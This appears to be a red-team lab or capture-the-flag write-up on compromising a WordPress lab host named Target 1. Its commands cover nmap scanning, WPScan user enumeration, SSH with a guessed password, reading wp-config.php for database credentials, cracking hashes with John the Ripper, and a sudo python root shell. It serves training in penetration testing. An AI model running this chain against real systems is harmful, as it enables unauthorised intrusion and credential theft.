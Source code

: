 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Services
 
 
Nmap scan results for each machine reveal the below services and OS details:
 
Command: $ nmap -sV 192.168.1.110
  ![redteam1](https://user-images.githubusercontent.com/91024338/143156404-1f4162a4-e0e5-4385-884b-4daf231ff115.JPG)

 
This scan identifies the services below as potential points of entry:
 
- Target 1
 
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn 
  - Port 445/TCP Open netbios-ssn
 
The following vulnerabilities were identified on each target:
 
- Target 1
  - Weak user password
  - User enumeration (WordPress site)
  - Unsalted user password hash (WordPress site)
  - Misconfiguration of user privileges and user escalation
 
### Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - Flag1: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
	-Used Brute Force to guess Michael’s password
  - Command:
      - wpscan --url http://192.168.1.110/wordpress/ --enumerate u




	-Password:michael
      - SSH in michael: ssh michael@192.168.1.110
      - cd var/www/html
      - ls -l
      - nano service.html (Flag1 located) 


 
  - Flag2: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
	- Used password from previous Brute Force
	-Password: michael
      - ssh michael@192.168.1.110
      - cd var/www
      - ls 
      - cat flag2.txt
      
- Flag3:afc01ab56b50591e7dccf93122770cd2
**Exploit Used**
Same exploits used to gain Flag 1 and 2:
Accessing MySQL Database
-Commands
	-cd /var/www/html/wordpress
	-cat wp_config.php
(screenshot)
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
-show tables;
	-select * from wp_posts;

 



 
 
Flag4:715dea6c055b9fe3337544932f2941ce
	-**Exploit used**
- Used MySQL database to gain access to user credentials.
- Used John the Ripper to crack the password hash.
- Used Python to gain root privileges.
- User credentials are stored in the ‘wp_users table’ in the wordpress database.
- I copied/saved the usernames and password hashes to my Kali machine in a file named wp_hashes.txt.
-Commands:
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
	-show tables;
	-select * from wp_users;

 
 
-Commands:
	- cd /usr/share/wordlist
	- john --wordlist=rockyou.txt wp_hashes.txt
 


 
-Results: 
-Steven’s password: pink84
 
- After I cracked Steven’s password I SSH as Steven, checked for root      
  privileges and escalated to root with Python.
-Commands:
	-ssh steven@192.168.1.110
	-password: pink84
	- sudo -l
	- sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
	- cd /root
	- ls
	- cat flag4.txt

 
 

 

